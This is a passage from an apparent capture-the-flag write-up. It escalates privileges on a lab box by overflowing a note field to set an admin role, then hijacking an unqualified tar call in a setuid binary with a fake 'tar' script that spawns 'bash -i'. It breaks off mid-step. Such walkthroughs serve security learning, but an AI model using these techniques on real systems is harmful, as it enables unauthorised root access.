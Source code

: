 

    Your choice: 4

    Write your note:
    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7admin



Now it says I have admin:



    Your choice: 2


    Username: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7admin
    Role: admin



And if I enter `8`, it says "Access granted!" before erroring out:



    Your choice: 8

    Access granted!
    tar: Removing leading `/' from member names
    /opt/notes/



`/opt/notes/` is empty.

### Exploit tar

#### Identify tar Command

The error seems to have an issue with `tar`. I'll run `strings` on the
binary to see if the command is in there, and it is:



    tbuckley@gofer:~$ strings /usr/local/bin/notes | grep 'tar '
    tar -czvf /root/backups/backup_notes.tar.gz /opt/notes



#### Path Hijack

The good news for me is that it is calling `tar` without a full path,
which means I can likely hijack `tar`.

I'll go into `/dev/shm` and create my own `tar` file:



    #!/bin/bash

    bash -i



This literally just drops into an interactive Bash shell. I'll make sure
to make `tar` executable.

I'll update my `$PATH` variable for my current session:
